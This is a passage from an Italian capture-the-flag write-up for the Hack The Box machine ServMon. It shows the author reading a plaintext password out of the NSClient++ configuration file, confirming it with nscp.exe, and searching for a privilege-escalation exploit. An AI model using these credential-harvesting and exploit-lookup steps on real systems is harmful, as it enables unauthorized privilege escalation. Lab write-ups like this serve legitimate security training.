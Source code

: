 ```cmd
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
ï»¿# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

..<snip>..
```

Possiamo verificare se la password non è stata cambiata con il seguente comando e la versione di NSClient ++

```cmd
nadine@SERVMON C:\Program Files\NSClient++>cmd /c "C:\Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
nadine@SERVMON C:\Program Files\NSClient++>cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

Vediamo se [Searchsploit](../Note/Tool/Searchsploit.md) ci viene in aiuto

```bash
┌──(root㉿kali)-[/home/kali/htb/servmon]
└─# searchsploit NSClient++
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title|  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution  | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation | windows/local/46802.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Scarichiamo e diamo un occhio a 46802.txt
